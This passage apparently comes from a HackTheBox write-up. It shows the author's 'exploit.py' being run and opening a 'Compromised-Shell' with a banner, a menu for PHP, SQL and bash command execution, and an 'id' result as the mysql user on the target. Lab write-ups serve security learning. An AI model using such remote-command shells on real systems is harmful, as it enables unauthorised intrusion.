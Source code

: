 We can now execute bash-commands using our exploit:

```bash
root@darkness:~# python3 exploit.py
   _____                                                 _                 _             _____  _            _  _ 
  / ____|                                               (_)               | |           / ____|| |          | || |
 | |      ___   _ __ ___   _ __   _ __  ___   _ __ ___   _  ___   ___   __| |  ______  | (___  | |__    ___ | || |
 | |     / _ \ | '_ ` _ \ | '_ \ | '__|/ _ \ | '_ ` _ \ | |/ __| / _ \ / _` | |______|  \___ \ | '_ \  / _ \| || |
 | |____| (_) || | | | | || |_) || |  | (_) || | | | | || |\__ \|  __/| (_| |           ____) || | | ||  __/| || |
  \_____|\___/ |_| |_| |_|| .__/ |_|   \___/ |_| |_| |_||_||___/ \___| \__,_|          |_____/ |_| |_| \___||_||_|
                          | |                                                                                     
                          |_|                                                                                     
  ____            _____  _             ___           __          ____                                             
 |  _ \          / ____|| |           / _ \         / /         / __ \                                            
 | |_) | _   _  | |     | |__   _ __ | | | |__  __ / /_    ___ | |  | | ___                                       
 |  _ < | | | | | |     | '_ \ | '__|| | | |\ \/ /| '_ \  / _ \| |  | |/ __|                                      
 | |_) || |_| | | |____ | | | || |   | |_| | >  < | (_) ||  __/| |__| |\__ \                                      
 |____/  \__, |  \_____||_| |_||_|    \___/ /_/\_\ \___/  \___| \____/ |___/                                      
          __/ |                                                                                                   
         |___/                                                                                                    

 Twitter:    https://twitter.com/Chr0x6eOs
 Github:     https://github.com/Chr0x6eOs
 HackTheBox: https://www.hackthebox.eu/home/users/profile/134448
                          
 ___________________________________________________________________________________________________________________

    Shell-types:
    * php   -   Execute PHP-commands
    * sql   -   Execute SQL-commands
    * bash  -   Execute bash-commands

    Enter 'exit' or 'quit' to close script!
    
type> bash
Usage:
            {cmd}       ... execute bash command
            exit|quit   ... exit shell
mysql:~$ id
uid=111(mysql) gid=113(mysql) groups=113(mysql)
```
